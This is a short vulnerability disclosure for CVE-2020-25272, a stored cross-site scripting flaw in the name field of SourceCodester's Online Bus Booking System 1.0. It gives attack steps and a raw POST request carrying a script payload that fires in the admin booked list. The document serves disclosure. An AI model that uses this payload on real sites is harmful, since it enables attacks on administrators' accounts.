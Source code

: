 # CVE-2020-25272

#Online Bus Booking System 1.0,there is XSS through the name parameter in book_now.php

#Vendor - SourceCodester

#Product - https://www.sourcecodester.com/php/14438/online-bus-booking-system-project-using-phpmysql.html V 1.0

#Vulnerability Type - Cross Site Scripting (XSS)

#Addition Information - Single XSS payload will trigger in all Dashboard, so account take over will be occurred.

#Affected Component - /bus_booking/book_now.php , /bus_booking/index.php?page=booked

#Attack Type- Local

#Privilege Escalation - true

#Impact Code execution - true

***Attack Vector***

> 1) Go to book_now.php and book bus ticket
>
>
> 2) In name field , set malicious XSS payload
>
> POST /bus_booking/book_now.php HTTP/1.1
>
> Cookie: PHPSESSID=5d6832eeb2a8dfd424c1b6dcd73745a0
>
>.....
>
> sid=2&bid=&name=<script>alert('XSS');</script>&qty=1
>
>
> 3) In Admin site, go to booked list, and stored XSS will be triggered
> 


